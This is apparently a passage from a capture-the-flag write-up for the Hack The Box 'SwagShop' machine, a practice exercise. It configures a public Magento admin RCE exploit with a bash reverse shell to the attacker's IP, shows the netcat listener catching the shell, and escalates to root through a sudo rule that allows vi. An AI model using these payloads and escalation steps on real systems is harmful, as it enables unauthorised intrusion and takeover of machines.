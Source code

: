 Now if we try to login into ```http://swagshop.htb/index.php/admin/``` with credentials b0d:forme, we can login as admin.  
now that we have creds, we can try the authenticated RCE exploit and use ```php/webapps/37811.py```.  
To tune this exploit we can use the following parameters:  
```
# Command-line args
target = 'http://swagshop.htb/index.php/admin'
arg = 'bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'

# Config.
username = 'b0d'
password = 'forme'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml publicly available (magescan)
```
Make this exploit work is a little bit more challenging, as we need to deal with encoding issues and type casting.  
We can help ourselves using [pdb](https://docs.python.org/3/library/pdb.html).  
We just need to ```import pdb``` and set preakpoints with ```pdb.set_trace()```.  
As always intercept exploit requests using burp proxy will help in understand why the exploit gets stuck.  
After we debug the exploit and tune it properly, we can run it, listen on our local port, wait for the shell to gets returned:
```
root@kali:~/Documents/HTB/Boxes/SwagShop# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.140] 45660
bash: cannot set terminal process group (1391): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$
```

## Root
After we get a shell, if we run ```sudo -l``` we can see that we have a quite obvious privilege escalation path.  
Anyway let's use common practices and spot this running linpeas.sh:  
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                  
Matching Defaults entries for www-data on swagshop:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                        

User www-data may run the following commands on swagshop:                                                                                                                                                                                    
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
Now, we can just:
```
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/test
```
and type:
```
:!/bin/bash
```